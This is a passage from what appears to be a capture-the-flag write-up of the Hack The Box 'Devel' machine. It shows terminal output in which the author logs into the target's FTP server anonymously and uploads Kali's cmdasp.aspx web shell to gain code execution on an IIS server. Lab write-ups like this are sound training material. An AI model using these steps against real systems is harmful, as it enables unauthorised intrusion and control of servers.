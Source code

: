 ![Devel](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/devel/image1.png)

With control of the web-server's directory I can execute code on the backend by uploading a `.aspx` script. 

## ASPX

Active Server Pages (ASPX) is a file format used primary by IIS web-servers. ASPX files typically contain various scripts or other open-source files that deliver dynamic, modern-looking elements on a page. This file type can be abused to run code on the backend server.

Kali Linux has a directory that contains web-shells that we can use. I made a copy of `cmdasp.aspx` to my current working directory and then uploaded it to the FTP server.  
```
┌──(root㉿kali)-[~/htb/devel]
└─# cp /usr/share/webshells/aspx/cmdasp.aspx .
                                                                                                                     
┌──(root㉿kali)-[~/htb/devel]
└─# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmdasp.aspx
local: cmdasp.aspx remote: cmdasp.aspx
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
100% |************************************************************************|  1442        4.56 MiB/s    --:-- ETA
226 Transfer complete.
1442 bytes sent in 00:00 (22.19 KiB/s)

```
